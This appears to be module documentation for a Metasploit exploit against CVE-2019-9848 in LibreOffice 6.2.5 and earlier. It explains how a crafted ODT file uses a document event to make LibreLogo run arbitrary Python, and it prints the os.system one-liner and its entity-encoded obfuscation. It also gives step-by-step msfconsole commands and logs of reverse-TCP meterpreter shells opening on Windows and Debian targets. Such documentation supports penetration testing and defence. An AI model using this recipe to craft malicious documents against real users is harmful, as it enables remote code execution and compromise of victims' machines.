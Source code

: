 ## Description

  This module exploits CVE-2019-9848 and is based on the module exploiting CVE-2018-16858, written by Shelby Pace.

  LibreOffice has a feature where documents can specify that pre-installed scripts can be executed on various document events such as mouse-over, etc. LibreOffice is typically also bundled with LibreLogo, a programmable turtle vector graphics script, which can be manipulated into executing arbitrary python commands. 

  By using the document event feature to trigger LibreLogo to execute python contained within a document a malicious document could be constructed which would execute arbitrary python commands silently without warning. 

  This module generates an ODT file with a dom loaded event that, when triggered, will execute any arbitrary python code and the metasploit payload. LibreLogo executes the python code stored on the text part of the document.

  The generated document file contains a one-liner python code that calls `os.system`: 

  ```python
  getattr(__import__(“os”),“system”)(“<%= @cmd %>”)
  ```

  but encoded :

  ```xml
  <text:p text:style-name="P8">&#x67;&#x65;&#x74;&#x61;&#x74;&#x74;&#x72;(&#x5f;&#x5f;&#x69;&#x6d;&#x70;&#x6f;&#x72;&#x74;&#x5f;&#x5f;(&#x201C;\x6f\&#x78;73&#x201D;),&#x201C;\&#x78;73\&#x78;79\&#x78;73\&#x78;74\x65\&#x78;6d&#x201D;)(“<%= @cmd %>”)</text:p>
  ```

  To avoid any python error, the `h1` title written in the document is a python comment `#`.

## Vulnerable Application

  LibreOffice version 6.2.5 and prior.

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/multi/fileformat/libreoffice_logo_exec```
  4. Do: ```set LHOST <ip>```
  5. Do: ```set LPORT <port>```
  6. Do: ```run```
  7. Move the generated file to the target
  8. Start a handler
  9. Open the file with a vulnerable version of LibreOffice
 10. You should get a shell.

## Scenarios

### Tested on LibreOffice 6.2.4 running Windows 7

  ```
  msf5 > use exploit/multi/fileformat/libreoffice_logo_exec 
  msf5 exploit(multi/fileformat/libreoffice_logo_exec) > set lhost 192.168.33.1
  lhost => 192.168.33.1
  msf5 exploit(multi/fileformat/libreoffice_logo_exec) > run

  [+] librefile.odt stored at /home/foobar/.msf4/local/librefile.odt
  msf5 exploit(multi/fileformat/libreoffice_logo_exec) > use multi/handler
  msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
  payload => windows/meterpreter/reverse_tcp
  msf5 exploit(multi/handler) > set lhost 192.168.33.1
  lhost => 192.168.33.1
  msf5 exploit(multi/handler) > run

  [*] Started reverse TCP handler on 192.168.33.1:4444 
  [*] Sending stage (179779 bytes) to 192.168.33.102
  [*] Meterpreter session 3 opened (192.168.33.1:4444 -> 192.168.33.102:46327) at 2019-07-29 03:33:03 -0400

  meterpreter > 
  ```

### Tested on LibreOffice 6.2.4 on Debian 9.9

  ```
  msf5 > use exploit/multi/fileformat/libreoffice_logo_exec 
  msf5 exploit(multi/fileformat/libreoffice_logo_exec) > set lhost 192.168.33.1
  lhost => 192.168.33.1
  msf5 exploit(multi/fileformat/libreoffice_logo_exec) > run

  [+] librefile.odt stored at /home/foobar/.msf4/local/librefile.odt
  msf5 exploit(multi/fileformat/libreoffice_logo_exec) > use multi/handler
  msf5 exploit(multi/handler) > set payload linux/x86/meterpreter/reverse_tcp
  payload => linux/x86/meterpreter/reverse_tcp
  msf5 exploit(multi/handler) > set lhost 192.168.33.1
  lhost => 192.168.33.1
  msf5 exploit(multi/handler) > run

  [*] Started reverse TCP handler on 192.168.33.1:4444 
  [*] Sending stage (985320 bytes) to 192.168.33.117
  [*] Meterpreter session 5 opened (192.168.33.1:4444 -> 192.168.33.117:43602) at 2019-07-29 04:44:04 -0400

  meterpreter > getuid
  Server username: uid=1001, gid=1001, euid=1001, egid=1001
  meterpreter > 
  ```
